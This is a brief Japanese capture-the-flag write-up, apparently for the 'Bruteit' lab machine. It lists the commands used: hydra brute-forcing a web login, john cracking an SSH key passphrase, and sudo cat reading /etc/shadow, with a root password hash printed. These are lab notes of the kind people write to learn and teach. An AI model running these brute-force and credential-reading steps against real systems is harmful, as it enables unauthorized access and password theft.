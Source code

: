 ```yaml
---
title: "Bruteit"
date: 2024-03-16T11:33:52+09:00
draft: false
---
```


### user.txt

- ソースコードを見ると admin がある
- ```hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.184.144 http-form-post "/admin/:user=^USER^&pass=^PASS^:Username or password invalid```
- id_rsa がもらえる
  - ```ssh2john id_rsa > hash.txt```
  - ```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```
  - ```chmod 666 id_rsa```
  - ```ssh -i id_rsa john@10.10.184.144```

### root.txt

- sudo -l で cat

``` shell
LFILE=/etc/shadow
john@bruteit:~$ sudo cat $LFILE

root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

- これを john で解析する
- su root
